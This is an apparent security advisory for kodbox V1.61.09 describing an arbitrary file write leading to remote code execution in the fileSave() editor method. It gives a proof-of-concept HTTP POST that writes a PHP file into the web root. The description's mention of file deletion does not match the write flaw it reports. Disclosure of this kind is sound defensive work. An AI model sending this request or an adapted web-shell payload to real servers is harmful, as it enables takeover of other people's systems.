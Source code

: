 # Vendor

kalcaddle

# Product

kodbox

# version

V1.61.09

# Download 

https://github.com/kalcaddle/kodbox

# Vulnerability

Arbitrary File Write​ RCE

# Description

The root of the vulnerability lies within the `fileSave()` method in the `app/controller/explorer/editor.class.php` file,users can delete any file on the server.

# Analysis

The root of the vulnerability lies within the `fileSave()` method in the `app/controller/explorer/editor.class.php` file.

<img width="870" height="536" alt="image" src="https://github.com/user-attachments/assets/9656873c-187c-408f-9337-4f18e5d70dc7" />

base64 does not equal 1 and can be written directly to the file, and there is no limit on the content and suffix of the file.

Recurrence of vulnerabilities：

<img width="1020" height="582" alt="image" src="https://github.com/user-attachments/assets/db8f7a36-2978-4006-b3f2-cede69d4a083" />

http://192.168.1.88:8088/1.php

<img width="910" height="1295" alt="image" src="https://github.com/user-attachments/assets/c5b2451c-0d6c-428d-8caf-77697670d144" />


# POC
```
POST /?explorer/editor/fileSave HTTP/1.1
Host: 192.168.1.88:8088
Content-Length: 167
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: zh-CN,zh;q=0.9
Cookie: CSRF_TOKEN=1; KOD_SESSION_ID=1314466bdb917162b6e85d75d7912cdd;
Connection: keep-alive

path=%2Fxp%2Fwww%2Fkodbox-1.61.09%2F1.php&charset=utf-8&content=<?php%20phpinfo();?>&base64=0&page=1&pageNum=512000&CSRF_TOKEN=1&API_ROUTE=explorer%2Feditor%2FfileSave

```
